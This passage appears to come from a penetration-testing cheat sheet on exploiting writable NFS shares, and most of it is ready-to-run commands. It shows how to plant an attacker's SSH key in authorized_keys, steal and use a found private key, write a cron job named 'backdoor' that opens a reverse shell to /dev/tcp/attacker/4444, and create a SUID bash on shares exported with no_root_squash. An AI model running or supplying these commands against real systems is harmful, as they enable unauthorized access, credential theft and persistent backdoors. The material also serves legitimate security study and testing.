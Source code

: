 **If .ssh directory is writable:**
```bash
echo "your_public_key" >> /tmp/nfs_mount/home/user/.ssh/authorized_keys
```

Then SSH in:
```bash
ssh -i your_private_key user@$IP
```

**If private key found:**
```bash
cp /tmp/nfs_mount/home/user/.ssh/id_rsa ./
chmod 600 id_rsa
ssh -i id_rsa user@$IP
```

## File Injection Attacks

**Writable cron directories:**
```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'" > /tmp/nfs_mount/etc/cron.d/backdoor
```

**Writable scripts:**
If you find startup scripts or frequently run scripts, inject reverse shell.

**Configuration file modification:**
Modify configs to execute your code.

## SUID Binary Placement

**Creating SUID bash:**
```bash
cp /bin/bash /tmp/nfs_mount/bash_suid
chmod +s /tmp/nfs_mount/bash_suid
```

**On target system:**
```bash
./bash_suid -p  # -p preserves privileges
```

**Requirements:**
- no_root_squash enabled on server
- Write access to share
- Ability to execute from share on target

## NFS Version Differences

**NFSv3:**
- Uses multiple RPC services
- mountd, nlockmgr, status
- More complex port structure
- Often more permissive
